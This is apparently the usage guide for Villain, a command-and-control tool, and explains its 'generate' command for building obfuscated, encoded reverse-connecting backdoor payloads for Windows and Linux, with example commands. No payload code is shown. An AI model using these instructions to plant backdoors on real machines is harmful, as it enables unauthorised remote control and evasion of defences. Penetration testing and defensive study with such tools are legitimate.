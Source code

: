 # Usage Guide
## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. 


## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=windows lhost=<IP or IFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```

The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
| Argument          | Required | Supported OS | Requires Input Val | Description |
|:-----------------:|:-------:|:-------------:|:------------------:|------------------------|
| os                | True    | All           | Yes                | The OS type to generate backdoor for. |
| lhost             | True    | N/A           | Yes                | Your local IP or Interface to connect back. |
| domain            | Depends | N/A           | Yes                | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost. |
| obfuscate         | False   | Windows       | No                 | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you. |
| encode            | False   | Windows       | No                 | Base64 encode the generated payload. |
| exec_outfile      | False   | Windows       | Yes                | Provide a file path on the victim to write & execute commands from (instead of using IEX) |
| constraint_mode   | False   | Windows       | No                 | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

#### Examples:
```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
Villain > generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
Villain > generate os=linux lhost=192.168.12.62
```
